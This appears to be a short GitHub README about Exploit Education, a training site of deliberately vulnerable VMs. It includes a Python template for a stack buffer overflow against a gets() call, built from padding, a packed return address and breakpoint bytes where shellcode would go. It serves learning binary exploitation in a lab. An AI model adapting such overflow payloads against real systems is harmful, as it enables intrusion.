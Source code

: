 # Exploit Education

> Best way to learn systems

The webiste is [here](https://exploit.education/). It has vulnerable virtual machine images which can be mounted and booted using [qemu](https://www.qemu.org/).
I got to know about this particular resource by [this](https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN) amazing playlist on binary exploitation by [Live Overflow](https://www.youtube.com/@LiveOverflow).

The machines have all the modern security features (like ASLR) disabled by default, hence the focus is primarily on cracking binaries. Some of the snippets which helped in cracking them are listed below.

```python
# affects the following pattern:
#     gets(buffer);
#     return 0;
# }
import struct

# padding to find input offset for the binary
padding="AAAABBBBCCCCDDDDEEEEFFFF"
# instruction to return to (leave instruction at end of main)
eip = struct.pack("I",0x7fffffffdba8) 
# nopslide
nopslide = "\x90"*100
# shellcode (execve bin/dash)
# \xCC is the opcode to generate breakpoint trap (very useful while cracking the binary inside gdb)
# check references
payload = "\xCC" * 4 

exploit = padding+eip+payload
print(exploit)
```

### References
- [Call to Interrupt Procedure](https://www.felixcloutier.com/x86/intn:into:int3:int1)
